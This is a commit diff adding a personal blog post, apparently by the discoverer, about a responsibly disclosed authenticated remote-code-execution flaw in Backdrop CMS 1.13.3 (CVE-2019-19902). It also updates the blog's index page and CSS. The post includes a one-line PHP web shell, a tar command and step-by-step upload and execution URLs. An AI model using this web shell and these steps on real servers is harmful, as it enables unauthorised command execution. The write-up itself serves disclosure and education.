

Before and after one commit to aswinmguptha/aswinmguptha.github.io, a Jekyll site: the page built from blog/index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
feat(blog-post): add first cve blog post

````diff
--- /dev/null
+++ b/_posts/2025-07-26-my-first-cve.md
@@ -0,0 +1,123 @@
+---
+layout: post
+title: "My First CVE: Remote Code Execution in Backdrop CMS (CVE-2019-19902)"
+section: blog
+---
+
+### TL;DR
+In 2019, I discovered a <span class="highlight">critical Remote Code Execution (RCE)</span> vulnerability in <span class="highlight">Backdrop CMS v1.13.3</span>, stemming from an insecure configuration import feature. The CMS allowed `.tar.gz` files to be uploaded and extracted—even if they contained only PHP shells and no config files. This flaw enabled <span class="highlight">authenticated admin users</span> to gain code execution on the server. I <span class="highlight">responsibly disclosed</span> the issue to the Backdrop Security Team, who confirmed the bug, issued a fix, and assigned it <span class="highlight">CVE-2019-19902</span>. This blog shares the technical details and personal reflections from that journey.
+
+---
+
+## 🧭 The Beginning
+
+Every security researcher remembers their <span class="highlight">first CVE</span>. For me, it was more than a vulnerability—it was a <span class="highlight">milestone</span> that validated my path in cybersecurity.
+
+In late 2019, I had been actively exploring open-source platforms, looking for misconfigurations, insecure defaults, and overlooked flaws. Along with a fellow researcher, I turned my attention to <span class="highlight">Backdrop CMS</span>, an open-source project inspired by Drupal. Its niche adoption and familiar architecture made it a promising target for analysis.
+
+What began as curiosity led to the discovery of a <span class="highlight">critical RCE vulnerability</span>—and ultimately to my first assigned CVE: <span class="highlight">CVE-2019-19902</span>.
+
+---
+
+## 🔍 The Vulnerability
+
+Backdrop CMS allows administrators to import site configurations via compressed `.tar.gz` files. These archives are uploaded and extracted server-side into a hashed staging directory.
+
+A prior security fix had attempted to prevent malicious file extraction by filtering out non-JSON files during import. However, I discovered a subtle bypass: <span class="highlight">if the archive contained only a PHP file and no JSON files at all</span>, the system <span class="highlight">still</span> extracted the archive.
+
+That meant an admin user could upload a `.tar.gz` file containing a <span class="highlight">malicious PHP shell</span>, which would be saved on the server and accessible via a predictable path. By chaining this with a GET parameter (`?cmd=`), an attacker could achieve <span class="highlight">remote code execution</span>.
+
+---
+
+## 🧪 Exploitation Steps
+
+Here’s a simplified reproduction flow (admin access required):
+
+1. **Create a PHP Web Shell**
+    ```php
+    <?php system($_GET['cmd']); ?>
+    ```
+
+2. **Compress the file**
+    ```bash
+    tar -czf shell.tar.gz shell.php
+    ```
+
+3. **Login to the CMS as admin**
+
+4. **Navigate to Configuration Management Import**
+    ```
+    http://<site>/?q=admin/config/development/configuration/full
+    ```
+
+5. **Upload the tarball and click “Stage Import”**
+
+6. **Visit the update info page to find the config directory hash**
+    ```
+    http://<site>/core/update.php?op=info
+    ```
+
+7. **Access the web shell**
+    ```
+    http://<site>/files/<hashed_directory>/staging/shell.php
+    ```
+
+8. **Execute commands remotely**
+    ```
+    http://<site>/files/<hashed_directory>/staging/shell.php?cmd=id
+    ```
+
+Just like that, <span class="highlight">arbitrary commands</span> could be run on the target server.
+
+---
+
+## 📬 Responsible Disclosure
+
+I documented the vulnerability thoroughly—with PoCs, reproduction steps, and even screenshots—and emailed the <span class="highlight">Backdrop Security Team</span>. The communication was led by <span class="highlight">Nate Lampton</span>, who initially couldn’t reproduce the issue because the patch worked for mixed-content archives (JSON + PHP), but not for <span class="highlight">PHP-only archives</span>.
+
+After some follow-up emails, test cases, and discussions, they confirmed the issue. The fix was released on <span class="highlight">December 18, 2019</span>, and the vulnerability was assigned <span class="highlight">CVE-2019-19902</span>.
+
+Here’s an excerpt from Nate’s response that meant a lot to me:
+
+> “While our previous fix filtered out non-JSON files from uploaded archives, you discovered if the archive contains only the script payload (and no JSON files at all), then the archive files are expanded anyway.”
+
+---
+
+## 🔖 CVE Details
+
+- **CVE ID**: [CVE-2019-19902](https://backdropcms.org/security/backdrop-sa-core-2019-016)
+- **Component**: Configuration Management
+- **Severity**: <span class="highlight">Critical</span>
+- **Impact**: <span class="highlight">Remote Code Execution (Authenticated)</span>
+- **Fixed In**: Backdrop CMS 1.14.2
+- **Advisory**: [Backdrop SA-CORE-2019-016](https://backdropcms.org/security/backdrop-sa-core-2019-016)
+
+---
+
+## 🎯 Reflections
+
+Getting my first CVE wasn’t just a technical win—it was <span class="highlight">emotional validation</span>. It taught me a few powerful lessons:
+
+- <span class="highlight">Edge cases matter.</span> The vulnerability bypassed a previous patch by targeting a rare, overlooked scenario.
+- <span class="highlight">Persistence pays off.</span> From initial confusion to confirmation, I had to follow up multiple times, ensuring the issue wasn’t dismissed or misunderstood.
+- <span class="highlight">Communication is critical.</span> A well-structured report with a clear PoC can accelerate collaboration with maintainers.
+- <span class="highlight">You don’t need zero-days.</span> Even open-source platforms with small user bases can contain impactful bugs.
+
+---
+
+## 🙌 A Note to Fellow Researchers
+
+If you’re just starting your journey in cybersecurity, here’s my advice:
+
+- Explore <span class="highlight">open-source projects</span>. They're accessible, well-documented, and often under-tested.
+- Focus on <span class="highlight">clarity over complexity</span>—great reports make an impact even if the bug seems “simple.”
+- Practice <span class="highlight">responsible disclosure</span>. It builds your credibility and helps secure software used around the world.
+- Your <span class="highlight">first CVE</span> might come from curiosity, not deep expertise. That’s okay. It’s a starting point, not a finish line.
+
+---
+
+## 💬 Final Thoughts
+
+<span class="highlight">CVE-2019-19902</span> wasn’t just about a bug in Backdrop CMS—it was about <span class="highlight">believing</span> that I could contribute something meaningful to the security community. That belief turned into action, which turned into <span class="highlight">real-world impact</span>.
+
+To this day, that moment reminds me why I do what I do. And if you're reading this, maybe it’ll be the push you need to chase your <span class="highlight">first CVE</span> too.
--- a/assets/css/styles.css
+++ b/assets/css/styles.css
@@ -455,6 +455,9 @@ body {
 .bio { animation-delay: 0.2s; }
 .links { animation-delay: 0.3s; }
 .page-title { animation-delay: 0.1s; }
+.page-title.center {
+  text-align: center;
+}
 
 @keyframes fadeInUp {
     to {
--- a/blog/index.html
+++ b/blog/index.html
@@ -5,10 +5,24 @@ section: blog
 ---
 
 <div class="container center">
-  <div class="content center">
-    <div class="page-title">
-      <h1 class="main-title">Coming Soon</h1>
-      <p class="subtitle large">something awesome is brewing...</p>
+  <div class="content">
+    <div class="page-title center">
+      <h1 class="main-title">Blog</h1>
+      <p class="subtitle large">thoughts, research, and writeups</p>
+    </div>
+
+    <div class="blog-list">
+      {% for post in site.posts %}
+        <div class="blog-card">
+          <a href="{{ post.url }}" class="blog-card-link">
+            <h2 class="blog-title">{{ post.title }}</h2>
+            <p class="blog-date">{{ post.date | date: "%B %d, %Y" }}</p>
+            {% if post.excerpt %}
+              <p class="blog-excerpt">{{ post.excerpt | strip_html | truncate: 150 }}</p>
+            {% endif %}
+          </a>
+        </div>
+      {% endfor %}
     </div>
   </div>
 </div>
````
